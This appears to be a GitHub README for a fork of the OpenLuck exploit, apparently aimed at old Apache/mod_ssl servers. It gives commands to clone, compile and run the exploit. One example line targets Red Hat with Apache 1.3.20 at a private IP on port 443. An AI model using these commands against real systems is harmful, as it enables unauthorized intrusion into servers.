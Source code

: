 # OpenLuck SFW
Fork of OpenLuck, made SFW!

## Usage

1. Download OpenLuck.c
```
git clone https://github.com/rufflabs/OpenLuck.git
```
2. Install ssl-dev library

```
apt-get install libssl-dev
```

3. It's Compile Time

````
gcc -o OpenLuck OpenLuck.c -lcrypto
````

4. Running the Exploit
```
./OpenLuck
```

5. See which service you witch to exploit. For example if you need to Red Hat Linux, using apache version 1.3.20. Trying out using the 0x6a option
./OpenLuck 0x6a [Target Ip] [port] -c 40

for example:
```
./OpenLuck 0x6a 192.168.80.145 443 -c 40
```
